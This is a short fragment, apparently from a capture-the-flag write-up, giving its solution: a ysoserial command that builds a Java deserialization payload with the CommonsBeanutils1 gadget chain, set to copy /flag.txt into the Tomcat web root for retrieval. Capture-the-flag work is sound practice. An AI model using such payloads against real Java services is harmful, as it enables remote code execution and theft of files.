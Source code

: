 Solution created with ysoserial:

```
java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'cp /flag.txt /usr/local/tomcat/webapps/ROOT/supersekretctfcheckfile.txt' > ./createsecretfile.ser
```

